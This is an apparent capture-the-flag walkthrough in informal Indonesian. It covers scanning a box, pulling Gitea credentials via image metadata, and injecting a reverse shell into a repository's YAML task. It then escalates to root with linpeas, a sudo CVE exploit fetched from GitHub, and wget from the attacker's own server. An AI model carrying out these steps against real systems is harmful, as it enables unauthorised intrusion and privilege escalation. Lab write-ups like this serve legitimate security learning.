 # boot:
1. scan nmap 22 80 8080 kebuka
2. coba donglot image yg thumb aja dah -> exiftool ke fotonya
3. ada tuh txt disitu kunjungi aja -> ternyata creds gitea jir -> cek di nmap ada port banyak 
4. cek repo nya ada flag -> di yaml config buat web di port lain
5. ubah aja di test -> hosts: all, remote_user: bismuth, tasks: -name: sebus, shell: bash -c 'revshell'
6. coba2 aja dah -> klaim flag ke 2

# pe: 
1. nyalain linpeas -> ada cve baron coba cari exploit nya di github
2. wget dari python servermu -> wget ip:port/folder --no-parent --recursive -> dah cd make aja
3. ./sandwich 0 -> klaim root

